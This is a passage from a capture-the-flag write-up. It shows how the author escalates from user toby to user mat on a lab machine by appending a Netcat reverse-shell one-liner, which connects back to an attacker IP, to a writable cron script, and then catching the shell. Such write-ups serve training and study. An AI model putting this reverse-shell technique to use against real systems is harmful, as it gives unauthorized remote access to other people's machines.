 We have our 4th flag.

## Escalate to Mat

We have to find a way to elevate our privileges again. `sudo -l` require a password, so we need to find something else. 

There is a note.txt file in the home folder, lets look at it. 
```
cat note.txt 
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

It looks like there is a cron job running, probably as Mat that we might be able to use. There is a jobs folder, and it contains a sh file. 

```bash
ls -l jobs/
total 4
-rwxr-xr-x 1 toby toby 46 Dec  3 03:31 cow.sh
toby@watcher:~$ cat jobs/cow.sh 
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```
This might be the cron from the message. And we can write to it. So I modified to add a reverse shell connection, started another Netcat listener and waited for a connection. 

Add this to jobs/cow.sh
```bash
mkfifo /tmp/kirxhbg; nc 10.13.3.36 4445 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg
```

The next time the cron runs, you will get a new connection. 

```bash
nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.157.89 55670
whoami
mat
ls /home/mat
cow.jpg
flag_5.txt
note.txt
scripts
```

That flag #5. 

## Escalate to Will
